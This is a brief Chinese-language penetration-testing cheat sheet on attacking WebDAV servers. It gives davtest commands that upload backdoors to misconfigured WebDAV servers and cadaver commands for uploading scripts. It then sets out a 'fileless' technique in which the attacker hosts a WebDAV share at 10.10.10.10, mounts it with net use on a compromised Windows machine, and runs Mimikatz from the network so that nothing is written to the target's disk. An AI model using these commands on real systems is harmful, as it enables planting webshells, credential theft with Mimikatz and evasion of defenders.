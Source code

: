 通俗一点儿来说，WebDAV 就是一种互联网方法，应用此方法可以在服务器上划出一块存储空间，可以使用用户名和密码来控制访问，让用户可以直接存储、下载、编辑文件。

## webDav配置不当上传木马
1）使用DavTest工具测试webdav能否执行一些脚本
`davtest [-auth user:password] -sendbd auto -url http://<IP> ` Try to upload every extension
2）使用cadaver工具连接webdav，上传脚本
`cadaver IP`
*登录成功后，使用upload，move，delete命令进行操作*



## webdav无文件落地目标系统
window读取linux文件
（1）在win或者linux系统上搭建webdav服务环境，作为工具上传基址
`pip install PyWebDAV`   win系统
`apt-get install python-webdav`   linux系统
`davserver -D /工具路径 -n -H 10.10.10.10 `  启动webdav
（2）当我们已经拥有命令执行权限时，需要将文件在目标机器上执行，由于 Windows 下载文件比较麻烦，故此采用 Webdav
`net use Z: http://10.10.10.10:8008`  挂载远程webdav
`net use Z: /DELETE` 终止挂载
（3）当我们运行 Mimikatz 时，会从网络加载这个文件，而不会落地到目标机器

